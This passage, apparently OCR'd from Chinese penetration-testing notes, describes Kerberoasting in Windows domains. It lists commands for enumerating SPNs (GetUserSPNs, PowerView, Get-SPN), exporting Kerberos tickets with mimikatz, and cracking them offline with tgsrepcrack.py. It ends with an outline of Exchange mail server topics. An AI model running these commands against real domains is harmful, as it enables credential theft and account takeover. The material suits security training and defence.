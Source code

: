 3.  GetUserSPNs 是 Kerberoast 工具集中的一个 powershell 脚本，用来查询域
    内用户注册的 SPN
    
4.  Powerview.ps1 PowerView 相对于上面几种是根据不同用户的 objectsid 来返
    回spn服务，返回的信息更加详细
    get-netuser -SPN
    
5.  PowerShellery下有各种各样针对服务SPN探测的脚本。其中一些需要
    PowerShell v2.0的环境，还有一些则需要PowerShell v3.0环境。
    1.Get-SPN -type service -search "*"
    2.Get-SPN -type service -search "*" -List yes | Format-Table
    
6.  在mimikatz中导出票据：kerberos::list /export 即可导出到当前目录
    然后将导出的票据使用kerberoast进行爆破，如果这里使用的md5，并且有相应字
    典即可爆破出密码。所以在实验时会将Kerberos密码策略改为：
    RC4\_HMAC\_MD5
    使用kerberoast中的tgsrepcrack.py脚本文件,离线破解票据中的NTLM Hash
    python tgsrepcrack.py password.txt 票据
    

# 10.Exchange邮件服务器安全

1，Exchange邮件服务器
2，Exchange服务发现
3，Exchange的基本操作
4，导出指定的电子邮件